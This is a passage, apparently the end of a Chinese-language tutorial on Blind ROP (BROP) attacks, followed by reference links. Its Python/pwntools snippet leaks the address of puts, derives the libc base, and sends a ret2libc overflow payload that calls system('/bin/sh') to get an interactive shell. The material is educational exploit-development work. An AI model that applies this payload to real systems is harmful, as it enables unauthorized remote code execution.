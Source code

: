 ```python
puts_addr = u64(data.ljust(8, '\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(stop_gadget)
sh.sendline(payload)
sh.interactive()
```

### 參考閱讀

- http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/
- http://bobao.360.cn/learning/detail/3694.html
- http://o0xmuhe.me/2017/01/22/Have-fun-with-Blind-ROP/
